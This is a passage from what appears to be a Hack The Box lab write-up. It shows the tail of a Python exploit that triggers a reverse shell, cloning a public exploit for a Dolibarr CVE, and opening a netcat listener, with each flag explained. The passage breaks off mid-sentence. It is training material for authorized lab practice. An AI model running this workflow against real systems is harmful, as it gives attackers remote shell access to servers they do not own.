 ``` python
    http_connection.close()
    time.sleep(1)
    requests.get(call_reverse_shell_url)

    print("[!] If you have not received the shell, please check your login and password")
```

looks like we are on to something with the page idea!

Overall, the script logs in with the admin account, makes a page and calls a reverse shell within that page. Let's go ahead and use it:

to do so, I am running the following commands:
``` bash
cd hackthebox
mkdir permx #just creating a folder to store everything

#these next three lines are from Rai2en's github
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/

chmod +x exploit.py #granting execute perms to the files
```

Before we run the command, we are going to open up a port on my machine to receive the reverse shell via netcat:

``` bash
nc -nlvp 8080 -s [INSERT_LOCAL_VPN_IP_HERE]
```

to break down this input:

**nc**: stands for netcat, a networking tool that allows for us to open up ports and make connections (among other things)
**-lnvp** is just the four following flags combined into one for convenience:
	**-l**: means it is using a listening port
	**-n**: numeric IP only (I haven't given my workstation a hostname so I'm only using IP)
	**-v**: verbose output, helpful for troubleshooting
	**-p**: indicates that we will be specifying the port number. I did 8080, but you can chose any valid port number not currently in use
**8080**: the port number we are using
**-s**: local source address, insert your IP that HTB assigned your machine via VPN. You can either find it through the command line with commands like **ifconfig**, **ip address**, or you can just find it in your machine connection:

